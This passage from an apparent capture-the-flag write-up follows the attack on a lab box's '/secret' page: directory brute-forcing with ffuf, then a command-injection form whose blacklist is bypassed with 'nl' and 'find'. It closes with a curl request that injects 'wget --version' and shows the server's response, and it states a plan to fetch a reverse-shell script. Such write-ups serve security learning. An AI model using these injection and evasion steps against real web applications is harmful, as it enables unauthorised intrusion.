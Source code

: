 ```shell
:: Progress: [4712/4712] :: Job [1/1] :: 1075 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

after dirbusting with ffuf one directory got my attention. `secret`

![[Pasted image 20221017222347.png]]

just a site with an input field and one button.
i try common commands like `whoami`

![[Pasted image 20221017222519.png]]

and we know who we are. but a few commands are black listed:

![[Pasted image 20221017222613.png]]

I tried different commands to view the contents of a file and in the end `nl` was one that worked.

because `ls` is not working i used `find` to look for files.

![[Pasted image 20221017223746.png]]

but i could not read the `local.txt`. bash was of course black listed too and other tools like python also. i wanted to spawn a reverse shell and luckily i could use `wget` to download the shell script to the victim. i also moved to `curl` for faster iteration.

```shell
└─$ curl -L -d "command=wget --version" http://chillhack.thm/secret/
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<h2 style="color:blue;">GNU Wget 1.19.4 built on linux-gnu.

-cares +digest -gpgme +https +ipv6 +iri +large-file -metalink +nls
+ntlm +opie +psl +ssl/openssl
</h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        </body>
</html>
```
